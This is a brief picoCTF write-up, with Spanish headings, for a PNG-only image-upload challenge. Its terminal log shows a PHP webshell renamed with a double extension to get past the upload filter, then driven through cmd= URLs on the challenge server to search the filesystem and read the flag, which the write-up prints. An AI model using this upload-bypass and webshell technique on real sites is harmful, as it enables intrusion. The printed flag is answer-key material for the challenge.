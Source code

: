 # Retos PicoCTF


## Objetivo 

I found a web app that can help process images: PNG images only!

Additional details will be available after launching your challenge instance.
## Solución 

```jesus@jesus-ThinkPad-T420:~$ mkdir picoctfretos
jesus@jesus-ThinkPad-T420:~$ cd picoctfretos/
jesus@jesus-ThinkPad-T420:~/picoctfretos$ locate webshells
jesus@jesus-ThinkPad-T420:~/picoctfretos$ locate webshells/php
jesus@jesus-ThinkPad-T420:~/picoctfretos$ touch webshell.php
jesus@jesus-ThinkPad-T420:~/picoctfretos$ nano webshell.php 
jesus@jesus-ThinkPad-T420:~/picoctfretos$ mv webshell.php webshell.png.php
jesus@jesus-ThinkPad-T420:~/picoctfretos$ nano webshell.png.php http://atlas.picoctf.net:62297/uploads/webshell.png.php?cmd=find%20/%20-name%20*txt%202%3E/dev/null

http://atlas.picoctf.net:62297/uploads/webshell.png.php?cmd=cat%20/var/www/html/GQ4DOOBVMMYGK.txt

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_48785c0e} */



```

## Notas adicionales 

## Referencias 
